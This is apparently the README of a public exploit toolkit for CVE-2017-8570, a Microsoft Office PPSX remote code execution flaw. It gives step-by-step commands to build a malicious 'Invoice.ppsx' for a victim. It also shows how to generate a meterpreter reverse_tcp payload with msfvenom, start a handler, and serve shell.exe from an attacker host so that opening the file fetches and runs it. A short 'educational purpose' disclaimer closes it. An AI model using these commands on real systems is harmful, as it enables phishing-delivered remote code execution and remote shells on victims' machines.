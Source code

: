 # Office8570
## Exploit toolkit CVE-2017-8570 - v1.0

Exploit toolkit CVE-2017-8570 - v1.0 is a handy python script which provides pentesters and security researchers a quick and effective way to exploit Microsoft Office PPSX RCE. It could generate a malicious PPSX file and deliver metasploit / meterpreter / other payload to user without any complex configuration.

### Video tutorial (for v1.0)

https://youtu.be/lSaRS-54kQc

### Release note:

Introduced following capabilities to the script

	- Generate Malicious PPSX file using -M gen argument
	- Run script in exploitation mode using -M exp argument
	- Deliver custom SCT file ( using -H argument )
	- Deliver remote payload

Version: Python version 2.7.13

### Future release:

Working on following feature

	- Enhance README.md

### Scenario 1: Deliver local payload
###### Example commands
	1) Generate malicious PPSX file
	   # python cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://192.168.56.1/logo.doc
	2) (Optional, if using MSF Payload) : Generate metasploit payload and start handler
	   # msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f exe > /tmp/shell.exe
	   # msfconsole -x "use multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.56.1; run"
	3) Start toolkit in exploit mode to deliver local payload
	   # python cve-2017-8570_toolkit.py -M exp -e http://192.168.56.1/shell.exe -l /tmp/shell.exe


### Scenario 2: Deliver Remote payload
###### Example commands
	1) Generate malicious PPSX file
	   # python cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://192.168.56.1/logo.doc
	2) Start toolkit in exploit mode to deliver remote payload
	   # python cve-2017-8570_toolkit.py -M exp -e http://remoteserver.com/shell.exe


### Scenario 3: Deliver custom SCT file
###### Example commands
	1) Generate malicious PPSX file
	   # python cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://192.168.56.1/logo.doc
	2) Start toolkit in exploit mode to deliver custom SCT file
	   # python cve-2017-8570_toolkit.py -M exp -H /tmp/custom.sct


### Command line arguments:

    # python cve-2017-8570_toolkit.py -h

    This is a handy toolkit to exploit CVE-2017-8570 (Microsoft Office PPSX RCE)

    Modes:

    -M gen                                          Generate Malicious PPSX file only

         Generate malicious PPSX file:

          -w <Filename.ppsx>                   Name of malicious PPSX file (Share this file with victim).

          -u <http://attacker.com/test.sct>   The path to an sct file. Normally, this should be a domain or IP where        this                                          tool is running.
	                                      For example, http://attackerip.com/test.sct (This URL will be included in 	                                              malicious PPSX file and will be requested once victim will open malicious PPSX file.

					      
    -M exp                                          Start exploitation mode

         Exploitation:
	 
          -H </tmp/custom.sct>                Local path of a custom SCT file which needs to be delivered and executed on target.
	                                          NOTE: This option will not deliver payloads specified through options "-e" and "-l"
						  
          -p <TCP port:Default 80>            Local port number.

          -e <http://attacker.com/shell.exe>  The path of an executable file / meterpreter shell / payload  which needs to be executed on target.

          -l </tmp/shell.exe>                 If payload is hosted locally, specify local path of an executable file / meterpreter shell / payload.


### Disclaimer

This program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (bhdresh) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using this program you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not bhdresh's responsibility.

### Credit

@Haifei Li for presentation slides, @bhdresh

### Bug, issues, feature requests

Obviously, I am not a fulltime developer so expect some hiccups

Please report bugs, issues through https://github.com/bhdresh/CVE-2017-8570/issues/new
